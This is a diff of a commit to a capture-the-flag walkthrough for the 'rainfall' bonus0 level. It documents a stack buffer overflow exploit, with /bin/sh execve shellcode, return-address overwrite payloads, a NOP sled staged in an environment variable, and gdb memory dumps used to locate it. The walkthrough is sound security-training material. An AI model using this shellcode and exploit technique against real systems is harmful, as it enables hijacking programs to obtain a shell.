

Before and after one commit to hugorclt/rainfall, a Markdown page: bonus0/walkthrough.md, the part around one of its changes. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
walkthrough a clean (bonne partie apres --------)

````diff
--- a/bonus0/walkthrough.md
+++ b/bonus0/walkthrough.md
@@ -175,26 +177,73 @@ address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`
 
 NE MARCHE PAS
 MAIS FONCTIONNE DANS GDB
+
 ```bash
 (python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
 ```
 
 POUR GDB
+
 ```bash
 run < <(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)
 ```
------
+
+---
 
 NE MARCHE PAS
+
 ```bash
 (python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\xa0\x85\x04\x08" + "A")'; cat)  | ./bonus0
 ```
 
 main - 4 = 080485a4 - 4 = 080485a0 = \xa0\x85\x04\x08
 
+export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
+
+`0xbffff90b` == `\x0b\xf9\xff\xbf`
+
+WITH NEW VALUE
+
+```bash
+(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x0b\xf9\xff\xbf" + "A")'; cat)  | ./bonus0
+```
+
+(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 \* "A" + "\x0b\xf9\xff\xbf" + "A")'; cat) | ./bonus0
+
+--------------------------------------------------------------------------------------------------
+
+offset calculated is 9
 
 
+We will use our env as a buffer we can control during execution
+The env variable will contain our shellcode
+
+```bash
+export EXPLOIT=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
+```
+
+Lets examine our env to find out its address
+
+```bash
+(gdb) x/200s environ
+0xbffff8c6:	 "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
 
 
+```
+Lets look at the address
 
-export EXPLOIT=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
+```bash
+(gdb) x/50x 0xbffff8c6
+0xbffff8c6:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
+0xbffff8ce:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
+0xbffff8d6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
+0xbffff8de:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
+0xbffff8e6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
+0xbffff8ee:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
+0xbffff8f6:	0x90	0x90
+
+```
+The start of our shellcode is `\x90\x90\90`
+Here we can see those bytes at `0xbffff8ce` == `\xce\xf8\xff\xbf`
+Why ? Because we need to skip 8 chars ("EXPLOIT="), so we skip the first 8 bytes
+
````
Also changed, not shown: other parts of bonus0/walkthrough.md (+24 -2 lines).
